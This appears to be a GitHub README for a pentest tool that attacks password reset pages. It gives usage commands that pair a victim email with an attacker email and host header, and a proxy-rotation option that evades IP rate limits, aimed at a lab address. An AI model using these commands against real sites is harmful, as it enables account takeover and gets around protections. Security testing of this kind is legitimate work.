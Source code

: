 ## Password Reset Brute force with ip rotation

This tool is a simple brute force that implements the hacktricks methodology in reset password.
The tool comes with ip rotation also to bypass ip based rate limit.

There are 2 script included. 1 for getting proxy list on https://free-proxy-list.net and the other is for checking the password reset

### Installation

Run the command below to install the required libraries used in the tool.
* pip3
  ```sh
  pip3 install -r requirements.txt
  ```
  
### Usage

Tool usage.
* pip3
  ```sh
  python3 test.py -vm 'victim@email.com' -tm 'attacker@email.com' -p email -ah 10.0.2.15 -u http://10.0.2.2/ResetPassword.php
  python3 test.py -vm 'victim@email.com' -p email -to tokenvlue -top token -u http://10.0.2.2/ResetPassword.php
  
  for IP rotation
  python3 test.py -vm 'victim@email.com' -tm 'attacker@email.com' -p email -ah 10.0.2.15 -e -u http://10.0.2.2/ResetPassword.php
  
  ```
## Authors

[anantha](https://github.com/Ananthavijay)

[damaidec](https://medium.com/@damaidec)


# Disclaimer
```sh
The tool is for education purpose only. Usage of the tool for attacking the website without consent is illegal. 
The end user of the tool will be responsible for the damage it might cause.
The developer of the tool assume no liability and not responsbile for any misuse and damage.
```

#### References
```sh
https://book.hacktricks.xyz/pentesting-web/reset-password
https://hackerone.com/reports/819930
https://rhinosecuritylabs.com/aws/bypassing-ip-based-blocking-aws/
https://www.pluralsight.com/guides/extracting-data-html-beautifulsoup
https://www.thepythoncode.com/article/using-proxies-using-requests-in-python
```
